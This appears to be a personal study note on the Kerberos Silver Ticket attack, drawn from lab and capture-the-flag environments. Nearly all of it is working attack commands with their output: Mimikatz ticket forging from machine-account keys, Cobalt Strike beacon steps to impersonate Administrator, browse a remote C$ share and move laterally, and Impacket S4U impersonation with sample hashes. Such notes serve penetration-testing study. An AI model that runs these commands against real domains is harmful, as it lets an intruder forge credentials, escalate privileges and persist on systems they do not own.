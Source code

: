 ```yaml
---
creation date: September 26th 2022
last modified date: September 26th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Silver Ticket]]  
___

## Description:  
A Silver Ticket is a forged TGS, signed using the secret material (RC4/AES keys) of a machine account. You may forge a TGS for any user to any service on that machine, which is useful for short/medium-term persistence (until the computer account password changes, which is every 30 days by default).

Silver and Golden (below) tickets can be generated "offline" and imported into your session. This saves executing Mimikatz on the target unnecessarily which is better OPSEC. Generating both silver and golden tickets can be done with the Mimikatz `kerberos::golden` module.

On your attacking machine:
```
mimikatz # kerberos::golden /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-3263068140-2042698922-2891547269 /target:srv-2 /service:cifs /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /ticket:srv2-cifs.kirbi
User      : Administrator
Domain    : dev.cyberbotic.io (DEV)
SID       : S-1-5-21-3263068140-2042698922-2891547269
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 - aes256_hmac
Service   : cifs
Target    : srv-2
Lifetime  : 25/05/2021 10:30:08 ; 23/05/2031 10:30:08 ; 23/05/2031 10:30:08
-> Ticket : srv2-cifs.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

Where:

-   `/user` is the username to impersonate.
-   `/domain` is the current domain name.
-   `/sid` is the current domain SID. (We can easily obtain the SID of our current user with `whoami /user`)
-   `/target` is the target machine.
-   `/aes256` is the AES256 key for the target machine.
-   `/ticket` is the filename to save the ticket as.

```
beacon> make_token DEV\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\srv2-cifs.kirbi
beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/06/2021 09:49:35   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     05/16/2021 13:00:02   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     03/29/2021 12:15:45   System Volume Information
          dir     02/17/2021 18:32:08   Users
          dir     05/15/2021 14:58:02   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     05/25/2021 08:39:40   pagefile.sys

beacon> rev2self
```

```
beacon> run klist

Current LogonId is 0:0x2d3d7

Cached Tickets: (2)

#0>    Client: Administrator @ dev.cyberbotic.io
    Server: host/srv-2 @ dev.cyberbotic.io
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
    Start Time: 5/26/2021 17:04:19 (local)
    End Time:   5/24/2031 17:04:19 (local)
    Renew Time: 5/24/2031 17:04:19 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0
    Kdc Called:

#1>    Client: Administrator @ dev.cyberbotic.io
    Server: http/srv-2 @ dev.cyberbotic.io
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
    Start Time: 5/26/2021 17:06:34 (local)
    End Time:   5/24/2031 17:06:34 (local)
    Renew Time: 5/24/2031 17:06:34 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0
    Kdc Called:

beacon> jump winrm64 srv-2 smb
[+] established link to child beacon: 10.10.17.68
```


### In Kali

^4540be

Example hash: `svc_int$:::d64b83fe606e6d3005e20ce0ee932fe2`

```
python3 /usr/share/doc/python3-impacket/examples/getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :c699eaac79b69357d9dabee3379547e6 -impersonate Administrator
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
 
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache

```

save the ticket as an environment variable:
`export KRB5CCNAME=/home/kolby/Desktop/working/krbrelayx/Administrator.ccache`

Log in with impacket:
`impacket-smbclient -k intelligence.htb/Administrator@dc.intelligence.htb -no-pass`

### In Mimikatz

```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK
mimikatz # kerberos::list
mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
mimikatz # kerberos::list
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 26th 2022 (12:32 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
